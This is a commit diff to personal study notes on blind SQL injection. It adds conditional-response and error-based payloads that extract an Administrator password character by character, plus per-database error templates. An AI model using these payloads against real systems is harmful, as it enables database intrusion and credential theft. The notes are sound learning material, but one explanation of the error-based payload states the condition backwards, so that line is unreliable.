

Before and after one commit to B310M0R/notes, a Markdown page: sqli.md, the part around the change. Shown: that part at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
sqli blind etc

````diff
--- a/sqli.md
+++ b/sqli.md
@@ -41,6 +41,38 @@ SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT use
 * Triggered by changing logic of query (boolean results, divide-by-zero etc)
 * Time delay of processing query
 * Out-of-band network ineraction
+
+#### Conditional responses
+Example:
+Site uses tracking cookies with some token which is compared to tokens in DB and if it appears to be there, site returns hello message
+If we add `AND '1'='1` nothing will change because it's True statement
+But if we add `AND '1'='2` it will fail and we will detect Blind SQLi
+We can use it to brute password symbol by symbol like this:
+```
+xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm        #returns True, meaning that 1 symbol of pass is greater then m
+xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't        #returns False, meaning that 1 symbol of pass is less then t
+xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's        #returns True, meaning that 1 symbol of pass is s
+```
+Note: SUBSTRING() function could be named SUBSTR() on some DBs
+To check next symbol use SUBSTRING((...), 2, 1)
+it's good idea to use Burp Intruder or Python script
+
+#### Error-based SQLi
+In such case we force DB to do smth which throws an error
+For example we can force DB to try divide-by-zero:
+```
+xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a          # nothing happens, because 1=2 is False and we just evaluate a to a
+xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a          # we force DB to 1/0 because 1=1 is True
+```
+```
+xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
+```
+In such case if 1 character of password is more then 'm', nothing happens. But if it's smaller, we force DB to 1/0, which throws an error
+For different DBs:
+* Oracle: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual `
+* Microsoft: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END `
+* Postgres: `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
+* MySQL: `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
 
 ### Second-order SQLi
 SQLi which is stored inside server/database and executed later with another HTTP request. Also called stored SQLi
````
